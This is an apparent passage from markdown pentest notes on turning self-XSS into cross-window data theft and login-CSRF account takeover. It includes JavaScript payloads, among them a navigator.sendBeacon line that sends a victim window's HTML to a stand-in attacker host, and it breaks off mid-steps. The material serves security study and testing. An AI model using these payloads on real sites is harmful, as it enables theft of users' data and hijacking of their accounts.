     ```
    ...
    window.open('//target.com/selfxsspage');
    ...
    ```

    * **NOTE**: now, executed JavaScript self-XSS payload is running in origin of web application on victim user's web browser
        * since initially opened window (from attacker's page), containing sensitive information, is in same origin as executed self-XSS payload, it is now accessible by self-XSS payload
            * according to Same Origin Policy (SOP), web browser does not differentiate between different user account contexts (victim user account's window vs. attacker user account's window - same to web browser)

7. access victim user's account and exfiltrate sensitive data

    (**self-XSS payload**)

    ```
    windowWithSensitiveData = window.open('', windowWithSensitiveData);
    navigator.sendBeacon('//attacker.com/exfil', windowWithSensitiveData.document.body.innerHTML);
    ```

    * **NOTES**:
        * reference first opened window from attacker's page (containing sensitve information) in self-XSS payload window
            * since both windows run in same web browser, it is possible to access it via name reference, using `window.open`
                * first argument = empty string (i.e. empty URL)
                * second argument = provide specified name reference
            * now, `window.open` will reference same window, opened initially (containing sensitive information)
        * only possible to leak information from referenced page
            * if any action performed on that page, it will be executed in context of attacker's user account
                * additionally, victim user account already logged out
            * issue addressed and solved in next attack chain

## [ADVANCED] Account Take Over (ATO)

<p align="justify">The overall idea is to log in victim user to attacker's user account, but only to the page with self-XSS (i.e. all remaning pages of the web application retaining victim user account context). This allows to execute the self-XSS payload in the attacker user account's context, while interacting with all (interesting) functionality in the victim user account's context.</p>

* IMPACT:
    * CVSS-Confidentiality: MEDIUM/HIGH
    * CVSS-Integrity: MEDIUM/HIGH

### Steps (High-level)

1. attacker sets up malicious page (ref: *attacker's page*)

2. log victim user's web browser into attacker's user account (typically, login-CSRF victim user)

    (**attacker's page**)

